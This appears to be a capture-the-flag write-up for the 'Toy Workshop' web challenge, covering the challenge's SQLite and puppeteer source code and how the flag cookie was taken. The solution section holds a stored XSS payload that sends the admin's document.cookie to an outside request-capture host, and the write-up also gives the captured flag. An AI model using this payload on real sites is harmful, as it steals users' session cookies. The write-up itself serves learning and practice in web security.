


# Cyber Sanra 2021 – Toy Workshop

- **Category:** Web Day 1
- **Points:** 300
- **Difficulty:** ★☆☆☆

## Challenge

We are given a nicely animated website where we are able to send "queries" to the manager via an input box.


We are also given the source code of the website so we can see where the flag is hidden and what it might be vulnerable to.

The server was using SQLite as a database and using prepared statements which meant that it was not vulnerable to SQL Injection.

```
async addQuery(query) {
    return new Promise(async (resolve, reject) => {
      try {
        let stmt = await this.db.prepare(
          "INSERT INTO queries (query) VALUES (?)"
        );
        console.log("db query is here:", query);
        resolve(await stmt.run(query));
      } catch (e) {
        reject(e);
      }
    });
  }

  async getQueries() {
    return new Promise(async (resolve, reject) => {
      try {
        let stmt = await this.db.prepare("SELECT * FROM queries");
        resolve(await stmt.all());
      } catch (e) {
        reject(e);
      }
    });
  }
```

The important part about the source code was that it showed that the flag was hidden in the cookies of the "admin" that was launching a headless browser puppeteer to view the queries.

```
const cookies = [{
	'name': 'flag',
	'value': 'HTB{f4k3_fl4g_f0r_t3st1ng}'
}];


const readQueries = async (db) => {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();
		await page.goto('http://127.0.0.1:1337/');
		await page.setCookie(...cookies);
		await page.goto('http://127.0.0.1:1337/queries', {
			waitUntil: 'networkidle2'
		});
		await browser.close();
		await db.migrate();
};
```

## Solution

Given that the cookies was on the "admin" that was launching. I needed a way to conduct XSS on the admin that was viewing my "query".
Using this payload

```
document.write(new Image().src="https://asdfasdfasdf.free.beeceptor.com/" + document.cookie)
```

and a tool online called [beeceptor](https://beeceptor.com/) to capture api requests. I saw the flag soon after.



```
HTB{3v1l_3lv3s_4r3_r1s1ng_up!}
```

## Thoughts

- Quite a simple introduction to XSS
- Introduced me to the beeceptor tool as opposed to the slightly more tedious way of setting up a [ngrok](https://ngrok.com/) server
